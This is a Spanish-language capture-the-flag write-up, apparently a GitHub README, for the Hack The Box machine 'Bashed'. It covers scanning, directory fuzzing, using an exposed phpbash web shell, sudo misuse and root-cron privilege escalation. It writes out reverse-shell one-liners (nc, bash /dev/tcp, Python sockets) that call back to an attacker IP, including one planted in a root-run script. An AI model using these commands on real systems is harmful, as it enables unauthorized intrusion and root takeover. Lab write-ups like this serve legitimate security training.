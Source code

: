 # Bashed-HTB
Resolucion de la maquina

## Nmap

```
nmap -sS -Pn --open 10.129.165.94 -oG scan 
```

Encontramos el puerto 80 tcp abierto

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/678fc948-f147-42df-82d1-fe6d367732b1)

Dentro de la pagina encontramos que esta montado eso intentamos ver si tiene ruta por defecto. Credencuales etc.

```
/uploads/phpbash.php 404 not found
```

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/0c544556-8cab-4cb5-bc5d-4532791899e2)

Entonces debe de haber otra ruta...

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -t 1000 -u  http://10.0.10.1:5000/FUZZ

# Encontramos todas esas rutas accesibles

http://10.129.79.161/php/ #Encontramos un archivo sendMail.php

http://10.129.79.161/images/ # Imagenes

http://10.129.79.161/fonts/ #Fonts

http://10.129.79.161/js/ #Js 

http://10.129.79.161/dev/ # Aqui esta el RCE inicial el phpbash.php

http://10.129.79.161/css/
```

## PHPBASH

> https://github.com/Arrexel/phpbash

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/97bf7979-4b93-4530-9189-126b9583904c)

## RCE

Intente salir de esa shell subiendo un php con nc y bash y no jalo pero con python si...

```
nc -e /bin/bash 10.10.14.74 443 # No Jalo

bash -i >& /dev/tcp/10.10.14.74/4444 0>&1 # no jalo mmm

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.74",443)); 
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


#Full tty

python -c ‘import pty; pty.spawn(“/bin/bash”);’

```
Si miramos un poco la maquina nos dice que:

> sudo -l reveals that the ​www-data​ user can run any command as scriptmanager​, without having to provide a password.

Entonces nos hacemos scriptmanager

```
(scriptmanager : scriptmanager) NOPASSWD: ALL

sudo -u scriptmanager /bin/bash
```

## Apache rutas interesantes

Aqui recopile algunas rutas interesantes.

```
/etc/apache2/sites-enabled
/etc/apache2/sites-enabled/000-default.conf
/var/www/pub
/etc/php/7.0/mods-available/ftp.ini
/usr/share/php7.0-common/common/ftp.ini
/home/scriptmanager/.bashrc
/var/www/html/config.php
## Busque archivos SUID


find / -name "*.*" -type f -perm -400

```

Al ejecutar el linpeas nos dimos cuenta de la existencia de un folder /scripts y tambien usamos el pspy para ver si hay una tarea cron y si.

```
pspy32s
```

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/9c427a79-031d-442b-91eb-1b26e5533e37)

Si vemos tiene el UID en cero lo que nos indica que root esta corriendo ese comando.

```
Se ejecutara cada minuto y nos regresa una reverse shell con permisos de root.**9**

echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.74",4444)); 
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > test.py
```

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/040d5787-ea2a-494e-8854-5a44229e1c9f)








